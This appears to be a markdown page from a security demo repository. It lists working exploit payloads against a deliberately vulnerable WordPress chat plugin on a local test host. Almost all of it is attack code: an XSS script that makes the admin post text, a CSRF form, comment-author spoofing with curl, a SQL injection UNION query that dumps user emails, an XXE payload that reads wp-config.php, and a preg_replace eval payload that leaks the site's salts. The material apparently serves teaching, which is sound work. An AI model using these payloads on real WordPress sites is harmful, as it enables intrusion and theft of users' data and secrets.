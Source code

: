 Make admin say something
========================

XSS
---

```js
haX0R = true;
```

```html
<script>
(function() {
	if ( 'undefined' !== typeof haX0R ) {
		return;
	}

	jQuery( '.widget_chat_sploit textarea' ).val( 'I am lame HAHAHA' );

	jQuery( '.widget_chat_sploit form' ).submit();
})()
</script>
```

CSRF
----

```html
<form enctype="text/plain" action="http://hacek.local/wordpress/wp-admin/admin-ajax.php?action=chatsploit" method="POST">
	<input type="hidden" name="&lt;chat&gt;" value="Hello&lt;/chat&gt;" />
	<input type="submit" value="Hot mdawaffe pics!" />
</form>
```

Spoof
-----

```bash
curl -i 'http://hacek.local/wordpress/wp-comments-post.php' --form 'comment=Hi' --form 'author=admin' --form 'email=test@example.com' --form 'comment_post_ID=12187'
```

Get list of all users' email adresses
=====================================

SQL Injection
-------------

```bash
curl -i 'http://hacek.local/wordpress/wp-admin/admin-ajax.php?action=chatsploit&since=2013-04-18+05:33:47%27+UNION+SELECT+user_login+AS+author%2C+user_email+AS+text%2C+0+AS+time+FROM+wp2_users+--+'
```

Get the site's SECRET_KEYs
=========================

XXE
---

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [<!ENTITY hi SYSTEM "php://filter/read=convert.base64-encode/resource=file:///Users/mdawaffe/Sites/wp-config.php"> ]>
<chat>&hi;</chat>
```

```bash
cat xxe.xml | curl "http://hacek.local/wordpress/wp-admin/admin-ajax.php?action=chatsploit" -H "Cookie: wordpress_97bd8bf7ee22f9417a72a1ea2e1d6871=author%7C1366426304%7C8fad75c62a8b4bfac050244f094c1084; wordpress_logged_in_97bd8bf7ee22f9417a72a1ea2e1d6871=author%7C1366426304%7C4ae3cc62335b75ef19bb1f812050c654;" --data @-
```

Get the site's SECRET_SALTs
===========================

`PREG_REPLACE_EVAL`
-------------------

```
hello http://example.com/{${substr(a.($a=get_option(auth_salt)),0,1)}} there
```

